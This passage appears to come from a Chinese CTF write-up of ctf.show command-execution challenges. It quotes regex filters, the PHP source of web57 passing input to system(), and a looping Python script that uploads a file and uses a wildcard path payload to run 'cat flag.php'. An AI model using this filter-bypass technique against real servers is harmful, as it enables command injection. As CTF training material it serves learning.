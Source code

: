 > \;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\<

这题相比上一题多过滤了一个数字，不影响我们上题的解题方法

这里不再赘述

放个大佬的脚本

```python
import requests

while True:
	url = "http://a88c904d-6cd4-4eba-b7e9-4c37e0cf3a7d.chall.ctf.show/?c=.+/???/????????[@-[]"
	r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
	if r.text.find("flag") > 0:
		print(r.text)
		break

```

#### web57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤条件增加

> \;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/

这道题把`?`过滤了，但是我们可以看到

```
system("cat ".$c.".php");
```
